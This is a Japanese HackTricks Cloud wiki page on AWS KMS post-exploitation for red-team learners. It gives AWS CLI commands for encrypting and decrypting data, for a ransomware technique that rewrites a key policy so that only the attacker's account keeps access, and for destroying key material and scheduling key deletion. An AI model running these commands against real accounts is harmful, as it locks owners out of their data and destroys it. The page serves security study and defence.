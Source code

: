 # AWS - KMS ポストエクスプロイテーション

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

## KMS

詳細については、以下を確認してください：

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### 情報の暗号化/復号化

`fileb://`および`file://`は、AWS CLIコマンドでローカルファイルへのパスを指定するために使用されるURIスキームです：

* `fileb://:` バイナリモードでファイルを読み取ります。通常、非テキストファイルに使用されます。
* `file://:` テキストモードでファイルを読み取ります。通常、プレーンテキストファイル、スクリプト、または特別なエンコーディング要件のないJSONに使用されます。

{% hint style="success" %}
ファイル内のデータを復号化したい場合、ファイルにはバイナリデータが含まれている必要があり、base64エンコードされたデータではないことに注意してください。（fileb://）
{% endhint %}

* **対称**キーを使用する
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* **非対称**キーを使用する:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS ランサムウェア

KMS に特権アクセスを持つ攻撃者は、キーの KMS ポリシーを変更し、**自分のアカウントに対するアクセスを付与し**、正当なアカウントに付与されたアクセスを削除することができます。

その結果、正当なアカウントのユーザーは、これらのキーで暗号化されたサービスの情報にアクセスできなくなり、アカウントに対して簡単だが効果的なランサムウェアを作成します。

{% hint style="warning" %}
**AWS 管理キーはこの攻撃の影響を受けません**、**顧客管理キー**のみが影響を受けます。

また、パラメータ **`--bypass-policy-lockout-safety-check`** を使用する必要があることに注意してください（ウェブコンソールにこのオプションがないため、この攻撃は CLI からのみ可能です）。
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
注意してください。ポリシーを変更して外部アカウントにのみアクセスを与え、その外部アカウントから**元のアカウントにアクセスを戻す新しいポリシーを設定しようとすると、できなくなります**。
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

### 一般的なKMSランサムウェア

#### グローバルKMSランサムウェア

グローバルKMSランサムウェアを実行する別の方法があり、以下の手順が含まれます：

* 攻撃者によってインポートされた**キー素材**を持つ新しい**キーを作成する**
* **古いデータを新しいもので再暗号化する**
* **KMSキーを削除する**
* これで、元のキー素材を持つ攻撃者だけが暗号化されたデータを復号化できるようになります

### キーを破壊する
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
AWSは現在、**クロスアカウントからの前述のアクションの実行を防止しています：**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
